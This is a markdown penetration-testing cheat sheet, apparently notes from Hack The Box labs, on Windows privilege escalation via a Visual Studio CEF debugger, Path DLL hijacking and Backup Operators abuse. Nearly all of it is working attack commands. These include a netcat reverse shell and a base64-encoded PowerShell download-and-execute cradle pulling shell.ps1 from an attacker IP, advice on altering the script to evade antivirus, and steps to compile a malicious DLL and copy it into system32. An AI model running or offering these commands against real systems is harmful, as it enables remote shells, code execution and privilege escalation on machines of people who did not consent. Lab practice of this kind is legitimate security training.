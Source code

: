 #### visual studio 10
+ visual studio 10 cefdebug, [exploit](https://github.com/taviso/cefdebug)

```bash
## port local,  port periodly open.
netstat -an | findstr 127

## scan local machine
.\cef.exe

## get shell, use nc
.\cef.exe --code "process.mainModule.require('child_process').exec('C:\\windows\\system32\\spool\\drivers\\color\\n.exe 10.10.14.42 9001 -e cmd')" --url ws://127.0.0.1:49900/4385feda-aac1-4c7e-8215-ad3c0a838358

## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## always test your shell code, especially encoded powershell.
## check the encoded shell 
powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==

## get shell via nishang encoded 
.\cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==')" --url  ws://127.0.0.1:17521/143e873e-4592-4a72-8765-27d20b778fc0
```

## Path DLL hijack - to learn
learn later；
+ check permission of folders inside path, could be able to hijack a DLL loaded by a process and privesc
+ backup operators member, dll hijack. htb-blackfield.
  
```bat
# check permissions of all folders inside path
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

### backup operators
+ backup operators member, dll hijack. htb-blackfield.

```bash
# backup operators member exploit. dll hijack
## https://github.com/itm4n/UsoDllLoader
## https://snowscan.io/htb-writeup-blackfield/#

x86_64-w64-mingw32-gcc -o windowscorediviceinfo.dll adduser.c -shared

upload /home/kali/lab/htb/blackfield/hijack/ WindowsCoreDeviceInfo.dll c:\temp\WindowsCoreDeviceInfo.dll
upload /home/kali/lab/htb/blackfield/hijack/UsoDllLoader.exe c:\temp\usodllloader.exe
mkdir system32
move windowscorediviceinfo.dll .\system32
move UsoDllLoader.exe .\system32
robocopy /b system32 c:\windows\system32

## exploit
.\usodllloader.exe
```